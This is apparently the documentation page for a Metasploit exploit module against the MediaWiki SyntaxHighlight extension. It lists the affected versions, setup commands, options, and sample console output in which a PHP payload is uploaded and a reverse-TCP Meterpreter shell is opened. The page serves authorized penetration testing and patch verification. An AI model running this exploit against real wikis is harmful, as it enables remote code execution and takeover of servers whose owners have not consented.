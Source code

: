 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x. This issue was supposed to be fixed in MediaWiki version 1.28.1 and version 1.27.2. It appears that the fix was pushed to the git repository, but for some reason it was not included in the release packages.

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST <ip target site>`
  3. `set TARGETURI <MediaWiki path>`
  4. `set UPLOADPATH <writable path in web root>`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started
  
## Options

  **TARGETURI**

  The MediaWiki base path, the URL path on which MediaWiki is exposed. This is normally `/mediawiki`, `/wiki`, or `/w`.

  **UPLOADPATH**

  Folder name where MediaWiki stores the uploads, make sure to use a relative path here. For a regular installation this is the `images` folder. This folder needs to be writable by MediaWiki and accessible from the web root. The exploit will try to create a PHP file in this location that will later be called through the web server.

  **CLEANUP**

  Set this to true (the default) to unlink the PHP file create by this exploit module. The cleanup code will only be called when the exploit is successful.

  **USERNAME**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the username of that account here.

  **PASSWORD**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the password of that account here.

## Sample Output
### MediaWiki 1.27.1-2 on Ubuntu 16.10

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```
